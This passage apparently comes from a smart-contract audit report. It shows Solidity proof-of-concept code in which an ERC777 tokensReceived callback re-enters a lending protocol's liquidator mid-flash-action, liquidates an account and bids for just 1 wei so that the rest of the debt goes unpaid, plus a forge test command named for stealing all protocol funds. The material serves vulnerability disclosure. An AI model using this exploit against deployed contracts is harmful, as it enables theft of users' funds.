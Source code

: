      /// @notice Liquidator interface
    interface ILiquidator {
        function liquidateAccount(address account) external;
        function bid(address account, uint256[] memory askedAssetAmounts, bool endAuction_) external;
    }
    
     /// @notice actionHandler contract that will trigger the attack via ERC777's `tokensReceived()` callback
    contract ActionHandler is IERC777Recipient, IActionBase {
    
        ILiquidator public immutable liquidator;
        address public immutable account;
        uint256 triggered;
    
        constructor(address _liquidator, address _account) {
            liquidator = ILiquidator(_liquidator);
            account = _account;
        }  
    
    		 /// @notice ERC777 callback function
        function tokensReceived(
            address operator,
            address from,
            address to,
            uint256 amount,
            bytes calldata userData,
            bytes calldata operatorData
        ) external {
            // Only trigger the callback once (avoid triggering it while receiving funds in the setup + when receiving final funds)
            if(triggered == 1) {
                triggered = 2;
                liquidator.liquidateAccount(account);
                uint256[] memory askedAssetAmounts = new uint256[](1);
                askedAssetAmounts[0] = 1; // only ask for 1 wei of token so that we repay a small share of the debt
                liquidator.bid(account, askedAssetAmounts, true);
            }
    				unchecked{
    	        triggered++;
    				}
        }
    
        function executeAction(bytes calldata actionTargetData) external returns (ActionData memory) {
            ActionData memory data;
            return data;
        }
    
    }
    ```
    
6. Execute the proof of concept with the following command (being inside the `lending-v2` folder): `forge test --mt testVuln_reentrancyInFlashActionEnablesStealingAllProtocolFunds`

## Impact
